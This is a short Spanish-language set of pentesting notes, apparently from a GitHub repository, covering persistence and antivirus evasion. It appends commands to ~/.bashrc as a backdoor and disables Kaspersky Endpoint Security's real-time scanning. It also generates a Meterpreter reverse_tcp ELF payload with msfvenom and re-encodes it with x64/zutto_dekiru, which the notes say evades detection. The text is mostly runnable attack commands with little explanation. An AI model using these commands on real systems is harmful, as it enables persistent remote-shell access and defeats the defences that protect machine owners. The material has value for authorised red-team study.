 ### Archivos de condiguracion de usuario
```
echo "touch /tmp/bashtest.txt" >> ~/.bashrc
ls -al /tmp/bashtest.txt
/bin/bash
ls -al /tmp/bashtest.txt
```
 
#### Puerta trasera simple de configuración de VIM
```
:echo "this is a test"
```
 
### Bypassing AV
#### Kaspersky EndPoint Security
Deshabilitar protección en tiempo real
```
sudo kesl-control --stop-t 1
```

Escaneo de archivo `eirca.txt`

```
sudo kesl-control --scan-file ./eicar.txt
sudo kesl-control -E --query | grep DetectName
```

Si ejecutamos un escaneo con Kaspersky en nuestro archivo met.elf como hicimos con nuestro archivo de prueba EICAR, el archivo es detectado como malware.
```bash
> msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf > met.elf
> sudo kesl-control --scan-file met.elf
> sudo kesl-control -E --query | grep DetectName
DetectName=HEUR:Backdoor.Linux.Agent.ar
```

Encoder `x64/zutto_dekiru` no detectado por AV
```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.100.9 lport=4444 -f elf  -e x64/zutto_dekiru > met64zutto.elf
sudo kesl-control --scan-file met64zutto.elf 
```

Restaurar proteccion en tiempo real (cuando accedemos o ejecutamos un archivo, Kaspersky escanearlo automáticamente en busca de virus.)
```
sudo kesl-control --start-t 1
```

```
gcc -o hack.out hack.c -z execstack
sudo kesl-control --scan-file ./hack.out
```
 
